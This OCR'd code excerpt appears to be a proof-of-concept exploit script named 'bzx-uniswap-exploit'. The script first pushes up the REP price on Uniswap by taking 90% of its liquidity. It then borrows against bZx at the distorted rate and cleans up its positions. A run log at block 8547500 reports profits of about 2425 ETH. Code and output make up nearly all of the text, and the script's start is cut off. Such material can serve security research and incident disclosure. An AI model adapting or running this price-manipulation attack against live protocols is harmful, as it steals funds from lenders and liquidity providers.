 ```javascript
            .then(this.borrow)
            .then(this.cleanup)
            .finally(this.checkProfits);
    }
    
    uint constant rateCheckAmount = 10 ether;
    
    function checkRates() external {
        (uint rate, uint slippage) = KYBER_NETWORK.getExpectedRate(REP, KYBER_ETH, rateCheckAmount);
        printf("checking rates tokens=%.18u rate=%.18u slippage=%.18u\n", abi.encode(rateCheckAmount, rate, slippage));
    }
    
    function makeOrder() external {
        UniswapLike uniswap = REP.getUniswapExchange();
        uint totalSupply = REP.balanceOf(address(uniswap));
        uint borrowAmount = totalSupply * 90 / 100;
        REP.getFromUniswap(borrowAmount);
        printf("making order totalSupply=%.18u borrowed=%.18u\n", abi.encode(totalSupply, borrowAmount));
    }
    
    function borrow() external {
        bytes32 hash = doBorrow(BZX_ETH, true, BZX_ETH.marketLiquidity(), WETH, REP);
        printf("borrowing loanHash=%32x\n", abi.encode(hash));
    }
    
    function cleanup() external {
        REP.giveAllToUniswap();
        WETH.withdrawAll();
    }
    
    function checkProfits() external {
        printf("profits=%.18u\n", abi.encode(address(this).balance - INITIAL_BALANCE));
    }
    
    function borrowInterest(uint amount) internal {
        WETH.deposit.value(amount)();
    }
}

/*
### running script "bzx-uniswap-exploit" at block 8547500
#### executing step: exploit
##### calling: checkRates()
checking rates tokens=10.000000000000000000 rate=0.057621091203633720 slippage=0.055892458467524708
##### calling: makeOrder()
making order totalSupply=8856.102959786215028808 borrowed=7970.492663807593525927
##### calling: checkRates()
checking rates tokens=10.000000000000000000 rate=5.656379870360426078 slippage=5.486688474249613295
##### calling: borrow()
collateral_required=702.265284613341236862, interest_required=205.433213643594588344
borrowing loanHash=0x947839881794b73d61a0a27ecdbe8213f543bdd4f4a578eedb5e1be57221109c
##### calling: cleanup()
##### calling: checkProfits()
profits=2425.711777227580307468
#### finished executing step: exploit
*/
```
